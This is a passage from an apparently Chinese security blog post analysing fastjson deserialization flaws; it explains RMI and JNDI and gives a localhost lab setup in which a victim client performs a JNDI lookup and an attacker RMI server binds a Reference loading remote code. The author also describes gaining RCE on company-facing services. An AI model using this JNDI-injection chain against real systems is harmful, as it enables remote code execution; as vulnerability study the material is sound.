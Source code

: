 ```yaml
---
title: fastjson反序列化漏洞分析
description: fastjson最新的反序列化漏洞和历史漏洞分析
categories:
 - 漏洞分析
tags:
 - 漏洞分析
---
```


这两年写了改了很多PoC，我们公司外网700多个服务，fastjson是我搞的这么多的PoC里唯一一个成功从外网RCE的漏洞，终于让我RCE了一次，开心的一匹

还能说什么呢，fastjson牛逼！！！

### 0x00 RMI-JNDI注入原理及利用
#### RMI和JNDI简介
没办法，别的分析文章里都是用RMI-JDNI的这条利用链的方式复现漏洞，不学也得学才能看懂

JNDI（Java Naming and Directory Interface,Java命名和目录接口）是一种Java的API，它允许客户端通过name发现和查找数据和对象

这些对象可以存储在不同的命名或者目录服务中，例如RMI（远程方法调用），LDAP（轻型目录访问协议）等

RMI（Remote Method Invocation，远程方法调用），名字看和RPC一样，是Java独有的机制，是让某个Java虚拟机上对象调用另一个Java虚拟机上对象的方法

RMI依赖的通信协议是JRMP（Java Remote Message Protocol，Java远程消息交换协议），为Java定制，服务端和客户端都为Java编写，RMI中对象是通过序列化的方式进行编码传输的

#### 先来弹一个计算器
注意，JDK版本在7u21以下，容易触发，因为RMI利用codebase执行任意代码的利用存在安全隐患，所以官方用SecurityManager和`java.rmi.server.useCodebaseOnly`进行了限制

使用低版本的JDK环境容易触发，避免学习时候造成的各种环境困境

首先建立一个目录，用IDEA创建一个Java项目，写几个Java类

```
// Client.java  客户端调用文件，也就是受害者服务器上的应用
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://127.0.0.1:1099/test";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}

// Server.java  服务端调用文件，也就是攻击者提供的RMI服务
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference test = new Reference("Test", "Test", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(test);
        registry.bind("test", refObjWrapper);
    }
}
```

